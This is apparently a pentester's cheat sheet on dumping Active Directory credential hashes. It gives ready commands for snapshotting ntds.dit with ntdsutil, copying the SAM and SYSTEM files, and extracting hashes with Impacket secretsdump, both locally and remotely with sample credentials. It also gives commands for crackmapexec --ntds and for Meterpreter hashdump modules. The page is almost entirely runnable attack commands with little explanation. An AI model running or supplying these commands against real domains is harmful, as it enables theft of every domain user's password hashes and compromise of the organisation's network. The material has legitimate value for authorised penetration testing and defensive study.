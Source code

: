 # Dumping domain hashes

## NTDSutil

{% code overflow="wrap" %}
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
-- or --

ntdsutil
> snapshot
> activate instance ntds
> create
> mount {GUID}
```
{% endcode %}

Then browse to the mounted directory in the C:/ and copy out the ntds.dit && SAM & SYSTEM file to your prefered location

To delete the snapshot after:

```
delete {GUID}
```

Then pull the hashes out with Impacket's Secretdump

{% code overflow="wrap" %}
```bash
impacket-secretsdump -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile myhashes local
```
{% endcode %}

You cna also dump them remotely:

{% code overflow="wrap" %}
```bash
secretsdump.py -sam sam.save -security security.save -system system.save -outputfile secretsdump domain.lan/tester1:tester1@10.123.4.21
```
{% endcode %}

The tidy up the hashes

{% code overflow="wrap" %}
```bash
cat myhashes.ntds | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1
```
{% endcode %}

Or you can do it with a 1 liner remotely. but becareful it doesnt crash the connection

{% code overflow="wrap" %}
```bash
impacket-secretsdump -just-dc -user-status -exec-method smbexec 'domaincorp/user123:Password1@10.144.2.11' -outputfile myhashes
```
{% endcode %}

## crackmapexec

{% code overflow="wrap" %}
```bash
crackmapexec smb <DC-IP> -u <user> -p <password> --ntds
```
{% endcode %}

## Meterpreter

Once you have your Meterpreter shell from your exploit of choice, such as PSEXEC

{% code overflow="wrap" %}
```bash
run post/windows/gather/smart_hashdump
--- or ---
run post/windows/gather/credentials/domain_hashdump
```
{% endcode %}
